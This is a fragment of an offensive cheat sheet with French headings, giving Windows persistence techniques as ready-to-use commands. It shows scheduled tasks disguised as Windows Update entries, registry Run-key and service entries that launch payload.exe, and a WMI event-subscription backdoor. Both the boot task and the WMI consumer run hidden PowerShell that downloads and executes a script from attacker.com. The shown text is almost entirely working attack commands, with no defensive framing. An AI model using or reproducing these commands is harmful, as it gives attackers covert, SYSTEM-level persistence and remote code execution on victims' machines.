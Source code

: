 ### Tâches Planifiées
```batch
# Tâche planifiée déguisée
schtasks /create /tn "Microsoft\Windows\WindowsUpdate\Automatic App Update" /tr "C:\Windows\System32\payload.exe" /sc minute /mo 30 /ru SYSTEM /f

# Tâche au démarrage
schtasks /create /tn "SystemBootManager" /tr "powershell.exe -WindowStyle Hidden -Command \"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')\"" /sc onstart /ru SYSTEM /f
```

### Registre Windows
```batch
# Autorun dans HKLM (nécessite admin)
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsSecurityUpdate" /t REG_SZ /d "C:\Windows\System32\payload.exe" /f

# Autorun utilisateur
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "UserAccountManager" /t REG_SZ /d "C:\Users\%USERNAME%\AppData\Local\update.exe" /f

# Services dans le registre
reg add "HKLM\SYSTEM\CurrentControlSet\Services\WindowsUpdate" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\payload.exe" /f
```

### WMI Backdoors
```powershell
# Event Filter WMI
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
    Name = "SystemBootFilter"
    EventNameSpace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"
}

# Event Consumer WMI
$Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
    Name = "SystemBootConsumer"
    CommandLineTemplate = "powershell.exe -WindowStyle Hidden -Command IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
}

# Binding
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{
    Filter = $Filter
    Consumer = $Consumer
}
```
